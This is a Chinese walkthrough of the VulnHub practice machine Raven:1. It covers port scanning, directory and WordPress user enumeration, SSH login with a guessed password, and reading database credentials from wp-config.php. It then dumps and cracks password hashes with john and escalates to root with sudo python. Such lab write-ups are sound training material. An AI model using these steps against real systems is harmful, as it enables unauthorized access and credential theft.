


# Raven:1

> https://download.vulnhub.com/raven/Raven.ova

靶场IP：`192.168.32.207`

扫描对外端口服务

```
┌──(root💀kali)-[~/Desktop]
└─# nmap -p 1-65535 -sV  192.168.32.207                                                                                                                                                                                                
Starting Nmap 7.92 ( https://nmap.org ) at 2022-09-06 05:28 EDT
Nmap scan report for 192.168.32.207
Host is up (0.00091s latency).
Not shown: 65531 closed tcp ports (reset)
PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 6.7p1 Debian 5+deb8u4 (protocol 2.0)
80/tcp    open  http    Apache httpd 2.4.10 ((Debian))
111/tcp   open  rpcbind 2-4 (RPC #100000)
43608/tcp open  status  1 (RPC #100024)
MAC Address: 00:0C:29:60:91:44 (VMware)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 14.45 seconds

```

浏览器访问80端口


爆破目录

```
┌──(root💀kali)-[/tmp]
└─# dirb http://192.168.32.207       

-----------------
DIRB v2.22    
By The Dark Raver
-----------------

START_TIME: Tue Sep  6 22:39:28 2022
URL_BASE: http://192.168.32.207/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt

-----------------

GENERATED WORDS: 4612                                                          

---- Scanning URL: http://192.168.32.207/ ----
==> DIRECTORY: http://192.168.32.207/css/                                                                                                                                                                                                   
==> DIRECTORY: http://192.168.32.207/fonts/                                                                                                                                                                                                 
==> DIRECTORY: http://192.168.32.207/img/                                                                                                                                                                                                   
+ http://192.168.32.207/index.html (CODE:200|SIZE:16819)                                                                                                                                                                                    
==> DIRECTORY: http://192.168.32.207/js/                                                                                                                                                                                                    
==> DIRECTORY: http://192.168.32.207/manual/                                                                                                                                                                                                
+ http://192.168.32.207/server-status (CODE:403|SIZE:302)                                                                                                                                                                                   
==> DIRECTORY: http://192.168.32.207/vendor/                                                                                                                                                                                                
==> DIRECTORY: http://192.168.32.207/wordpress/  
```

访问`/wordpress/ `



使用wpscan枚举用户

```
┌──(root💀kali)-[/tmp]
└─# wpscan --url http://192.168.32.207/wordpress/ -eu  
```

```
[+] michael
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)

[+] steven
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)
```

使用`michael/michael`登录ssh

```
┌──(root💀kali)-[/tmp]
└─# ssh michael@192.168.32.207       
The authenticity of host '192.168.32.207 (192.168.32.207)' can't be established.
ECDSA key fingerprint is SHA256:rCGKSPq0sUfa5mqn/8/M0T63OxqkEIR39pi835oSDo8.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '192.168.32.207' (ECDSA) to the list of known hosts.
michael@192.168.32.207's password: 

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
You have new mail.
michael@Raven:~$ sudo -l

We trust you have received the usual lecture from the local System
Administrator. It usually boils down to these three things:

    #1) Respect the privacy of others.
    #2) Think before you type.
    #3) With great power comes great responsibility.

[sudo] password for michael: 
Sorry, user michael may not run sudo on raven.
```

查看`wp-config.php`配置文件

```
define('DB_NAME', 'wordpress');

/** MySQL database username */
define('DB_USER', 'root');

/** MySQL database password */
define('DB_PASSWORD', 'R@v3nSecurity');

/** MySQL hostname */
define('DB_HOST', 'localhost');

/** Database Charset to use in creating database tables. */
define('DB_CHARSET', 'utf8mb4');

/** The Database Collate type. Don't change this if in doubt. */
define('DB_COLLATE', '');

```

登录MySQL查询用户表

```
michael@Raven:/var/www/html/wordpress$ mysql -uroot -p -h127.0.0.1
Enter password: 
Welcome to the MySQL monitor.  Commands end with ; or \g.
Your MySQL connection id is 67
Server version: 5.5.60-0+deb8u1 (Debian)

Copyright (c) 2000, 2018, Oracle and/or its affiliates. All rights reserved.

Oracle is a registered trademark of Oracle Corporation and/or its
affiliates. Other names may be trademarks of their respective
owners.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

mysql> show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| mysql              |
| performance_schema |
| wordpress          |
+--------------------+
4 rows in set (0.01 sec)

mysql> use wordpress;
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
mysql> show tables;
+-----------------------+
| Tables_in_wordpress   |
+-----------------------+
| wp_commentmeta        |
| wp_comments           |
| wp_links              |
| wp_options            |
| wp_postmeta           |
| wp_posts              |
| wp_term_relationships |
| wp_term_taxonomy      |
| wp_termmeta           |
| wp_terms              |
| wp_usermeta           |
| wp_users              |
+-----------------------+
12 rows in set (0.00 sec)

mysql> select * from wp_users;
+----+------------+------------------------------------+---------------+-------------------+----------+---------------------+---------------------+-------------+----------------+
| ID | user_login | user_pass                          | user_nicename | user_email        | user_url | user_registered     | user_activation_key | user_status | display_name   |
+----+------------+------------------------------------+---------------+-------------------+----------+---------------------+---------------------+-------------+----------------+
|  1 | michael    | $P$BjRvZQ.VQcGZlDeiKToCQd.cPw5XCe0 | michael       | michael@raven.org |          | 2018-08-12 22:49:12 |                     |           0 | michael        |
|  2 | steven     | $P$Bk3VD9jsxx/loJoqNsURgHiaB23j7W/ | steven        | steven@raven.org  |          | 2018-08-12 23:31:16 |                     |           0 | Steven Seagull |
+----+------------+------------------------------------+---------------+-------------------+----------+---------------------+---------------------+-------------+----------------+
2 rows in set (0.00 sec)

```

爆破密码

```
┌──(root💀kali)-[/tmp]
└─# cat hash.txt         
$P$Bk3VD9jsxx/loJoqNsURgHiaB23j7W/
                                                                                                                     
                                                                                                    
┌──(root💀kali)-[/tmp]
└─# john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt                                                  
Using default input encoding: UTF-8
Loaded 1 password hash (phpass [phpass ($P$ or $H$) 128/128 AVX 4x3])
Cost 1 (iteration count) is 8192 for all loaded hashes
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
pink84           (?)
1g 0:00:00:03 DONE (2022-09-06 22:47) 0.2652g/s 12171p/s 12171c/s 12171C/s remix..milkdud
Use the "--show --format=phpass" options to display all of the cracked passwords reliably
Session completed

```

切换到`steven`用户

```
michael@Raven:/var/www/html/wordpress$ su steven
Password: 
$ 
$ id
uid=1001(steven) gid=1001(steven) groups=1001(steven)

```

查看sudo列表

```
$ sudo -l
Matching Defaults entries for steven on raven:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User steven may run the following commands on raven:
    (ALL) NOPASSWD: /usr/bin/python

```

提权

```
sudo python -c 'import pty;pty.spawn("/bin/bash")'
```



